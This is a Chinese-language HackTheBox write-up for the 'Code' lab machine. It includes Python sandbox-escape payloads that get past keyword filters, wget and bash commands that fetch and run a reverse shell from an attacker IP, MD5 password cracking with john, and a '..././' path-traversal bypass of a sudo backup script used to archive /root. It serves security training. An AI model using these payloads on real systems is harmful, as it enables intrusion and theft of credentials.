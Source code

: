 ```yaml
---
title: "HTB-Code"
date: 2025-03-23
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Code  
❯ nmap code.htb -sV -A                 

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
```

## Own www-data

- [SSTI 注入 - Hello CTF](https://hello-ctf.com/hc-web/ssti/#_7)

进入到**5000**端口是一个**python**代码执行窗口

过滤了**import**和一些关键词，尝试寻找**eval**函数

```
for i in range(500):
    try:
        x = ''.__class__.__bases__[0].__subclasses__()[i].__init__.__globals__['__buil'+'tins__']
        if 'ev'+'al' in x:
            print(i)
    except Exception as e:
        continue
```

![](./images/image-325.png)

用加号来进行绕过，即可执行命令

```
print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__buil'+'tins__']['ev'+'al']('__imp'+'ort__("o'+'s").po'+'pen("ls /").re'+'ad()'))
```

![](./images/image-326.png)

```
print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__buil'+'tins__']['ev'+'al']('__imp'+'ort__("o'+'s").po'+'pen("wget 10.10.xx.xx/shell.sh -O /tmp/shell.sh").re'+'ad()'))

print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__buil'+'tins__']['ev'+'al']('__imp'+'ort__("o'+'s").po'+'pen("bash /tmp/shell.sh").re'+'ad()'))
```

得到反弹**Shell**

![](./images/image-327.png)

拿到**User**

![](./images/image-328.png)

当然，你也可以选择一个更加优雅的方式

```
obj = globals()["__buil" + "tins__"]['ev'+'al']
result = obj('__imp'+'ort__("o'+'s").pop'+'en("ls").rea'+'d()')
print(result) 
```

![](./images/image-333.png)

## Own Martin

在**app/instance**目录下发现一个**database.db**，得到**martin**的密码**hash**

![](./images/image-329.png)

```
[root@kali] /home/kali/Code  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=Raw-MD5 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXXXXXXXXXXXXXX (?)     
```

![](./images/image-330.png)

## Root

查看`sudo -l`

```
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

查看脚本内容

```
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

脚本的内容如下：

1. **检查参数**：如果没有传入文件参数，输出用法说明并退出。

3. **文件存在性检查**：检查 `task.json` 文件是否存在，若不存在则报错退出。

5. **处理 JSON 文件**：使用 `jq` 移除 `directories_to_archive` 中的 `../`，并更新文件内容。

7. **验证目录**：遍历 `directories_to_archive` 中的目录，确保它们在允许的路径 `/var/` 或 `/home/` 下。

9. **执行备份**：如果所有目录验证通过，执行 `backy.sh` 备份操作。

这里可以使用双写绕过**../**，创建一个**task.json**

```
{
  "directories_to_archive": [
    "/home/..././root/" 
  ],
  "destination": "/tmp"
}
```

然后执行

```
sudo /usr/bin/backy.sh task.json
```

![](./images/image-331.png)

当然，也可以拿到**SSH**密钥

![](./images/image-332.png)

## Summary

`User`：类似于**SSTI**或者**Pyjail**，进行命令执行，直接就拿到了**user.txt**。

`Root`：在**database.db**中拿到**martin**的密码进行解密，通过双写绕过目录限制，备份**root**文件夹，可以拿到**root**密钥。
